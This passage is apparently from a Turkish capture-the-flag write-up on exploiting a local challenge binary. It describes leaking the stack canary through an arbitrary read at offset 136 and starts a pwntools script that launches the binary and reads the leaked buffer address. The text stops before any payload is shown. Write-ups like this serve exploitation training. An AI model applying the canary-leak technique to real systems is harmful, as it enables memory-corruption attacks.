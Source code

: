 ![peda](assets/peda.png)

İlk öncelikle bize verilen arbitrary read üzerinden stack-canary değerini her seferinde çekmemiz gerekiyor. Stack canary ise bizim buffer'ımızdan sonra bulunuyor. Yani bize verilen, stack'teki buffer başlangıç adresine 136 eklersek canary'mizin bulunduğu stack adresini elde ederiz.

### Canary değerini elde etme

Exploitation kısmı için `python3` ve, python'ın `pwntools` adlı kütüphanesini kullanacağız. 

``` python
from pwn import *

context.arch = "amd64"

OFFSET = 136
PATH = "/home/skysec/challenge"

p = process(PATH)
libc = ELF(p.libc.path)
elf = ELF(PATH)

p.recvuntil("the happiness is: ")
buff = p.recv(14)
log.info(b"Buffer @: " + buff)
```